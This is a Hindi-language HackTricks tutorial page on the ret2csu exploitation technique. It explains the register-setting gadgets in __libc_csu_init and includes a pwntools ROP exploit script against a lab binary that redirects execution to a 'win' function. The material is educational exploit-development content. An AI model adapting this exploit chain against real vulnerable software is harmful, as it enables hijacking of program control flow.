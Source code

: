 # Ret2csu

{{#include ../../../banners/hacktricks-training.md}}

## Basic Information

**ret2csu** एक हैकिंग तकनीक है जिसका उपयोग तब किया जाता है जब आप किसी प्रोग्राम पर नियंत्रण पाने की कोशिश कर रहे होते हैं लेकिन आपको प्रोग्राम के व्यवहार को नियंत्रित करने के लिए आमतौर पर उपयोग किए जाने वाले **gadgets** नहीं मिलते।

जब कोई प्रोग्राम कुछ विशेष पुस्तकालयों (जैसे libc) का उपयोग करता है, तो इसमें विभिन्न भागों के बीच बातचीत को प्रबंधित करने के लिए कुछ अंतर्निहित कार्य होते हैं। इन कार्यों में कुछ छिपे हुए रत्न होते हैं जो हमारे गायब gadgets के रूप में कार्य कर सकते हैं, विशेष रूप से एक जिसे `__libc_csu_init` कहा जाता है।

### The Magic Gadgets in \_\_libc_csu_init

`__libc_csu_init` में, दो निर्देशों के अनुक्रम (हमारे "जादुई gadgets") हैं जो विशेष रूप से ध्यान आकर्षित करते हैं:

1. पहला अनुक्रम हमें कई रजिस्टरों (rbx, rbp, r12, r13, r14, r15) में मान सेट करने की अनुमति देता है। ये ऐसे स्लॉट की तरह होते हैं जहाँ हम बाद में उपयोग करने के लिए संख्याएँ या पते संग्रहीत कर सकते हैं।
```armasm
pop rbx;
pop rbp;
pop r12;
pop r13;
pop r14;
pop r15;
ret;
```
यह गैजेट हमें इन रजिस्टरों को नियंत्रित करने की अनुमति देता है, स्टैक से मानों को पॉप करके।

2. दूसरा अनुक्रम उन मानों का उपयोग करता है जो हमने सेट किए हैं, कुछ चीजें करने के लिए:
- **विशिष्ट मानों को अन्य रजिस्टरों में स्थानांतरित करें**, उन्हें कार्यों में पैरामीटर के रूप में उपयोग करने के लिए तैयार करना।
- **एक स्थान पर कॉल करें** जो r15 और rbx में मानों को जोड़कर और फिर rbx को 8 से गुणा करके निर्धारित किया गया है।
```
mov rdx, r14;
mov rsi, r13;
mov edi, r12d;
call qword [r15 + rbx*8];
```
## उदाहरण

कल्पना कीजिए कि आप एक syscall करना चाहते हैं या `write()` जैसी किसी फ़ंक्शन को कॉल करना चाहते हैं लेकिन आपको `rdx` और `rsi` रजिस्टर में विशेष मानों की आवश्यकता है। सामान्यतः, आप उन गैजेट्स की तलाश करेंगे जो इन रजिस्टरों को सीधे सेट करते हैं, लेकिन आप कोई नहीं पा रहे हैं।

यहाँ **ret2csu** का उपयोग होता है:

1. **रजिस्टर सेट करें**: पहले जादुई गैजेट का उपयोग करें ताकि स्टैक से मानों को पॉप करके rbx, rbp, r12 (edi), r13 (rsi), r14 (rdx), और r15 में डाल सकें।
2. **दूसरे गैजेट का उपयोग करें**: उन रजिस्टरों को सेट करने के बाद, आप दूसरे गैजेट का उपयोग करते हैं। यह आपको `rdx` और `rsi` (क्रमशः r14 और r13 से) में अपने चुने हुए मानों को स्थानांतरित करने की अनुमति देता है, जो फ़ंक्शन कॉल के लिए पैरामीटर तैयार करता है। इसके अलावा, `r15` और `rbx` को नियंत्रित करके, आप प्रोग्राम को उस फ़ंक्शन को कॉल करने के लिए मजबूर कर सकते हैं जो आप पता लगाते हैं और `[r15 + rbx*8]` में रखते हैं।

आपके पास [**इस तकनीक का उपयोग करते हुए एक उदाहरण और इसे यहाँ समझाते हुए**](https://ir0nstone.gitbook.io/notes/types/stack/ret2csu/exploitation) है, और यह अंतिम एक्सप्लॉइट है जिसका इसने उपयोग किया:
```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

POP_CHAIN = 0x00401224 # pop r12, r13, r14, r15, ret
REG_CALL = 0x00401208  # rdx, rsi, edi, call [r15 + rbx*8]
RW_LOC = 0x00404028

rop.raw('A' * 40)
rop.gets(RW_LOC)
rop.raw(POP_CHAIN)
rop.raw(0)                      # r12
rop.raw(0)                      # r13
rop.raw(0xdeadbeefcafed00d)     # r14 - popped into RDX!
rop.raw(RW_LOC)                 # r15 - holds location of called function!
rop.raw(REG_CALL)               # all the movs, plus the call

p.sendlineafter('me\n', rop.chain())
p.sendline(p64(elf.sym['win']))            # send to gets() so it's written
print(p.recvline())                        # should receive "Awesome work!"
```
> [!WARNING]
> ध्यान दें कि पिछले एक्सप्लॉइट का उद्देश्य **`RCE`** करना नहीं है, इसका उद्देश्य केवल `win` नामक एक फ़ंक्शन को कॉल करना है (ROP चेन में `win` का पता stdin से कॉल करते हुए प्राप्त करना और इसे r15 में स्टोर करना) तीसरे तर्क के साथ जिसका मान `0xdeadbeefcafed00d` है।

### सीधे libc का उपयोग क्यों न करें?

आमतौर पर, ये मामले [**ret2plt**](../common-binary-protections-and-bypasses/aslr/ret2plt.md) + [**ret2lib**](ret2lib/index.html) के प्रति भी संवेदनशील होते हैं, लेकिन कभी-कभी आपको उन पैरामीटर को नियंत्रित करने की आवश्यकता होती है जो सीधे libc में पाए गए गैजेट्स के साथ आसानी से नियंत्रित नहीं किए जा सकते। उदाहरण के लिए, `write()` फ़ंक्शन को तीन पैरामीटर की आवश्यकता होती है, और **इन सभी को सीधे सेट करने के लिए गैजेट्स खोजना संभव नहीं हो सकता**।

{{#include ../../../banners/hacktricks-training.md}}
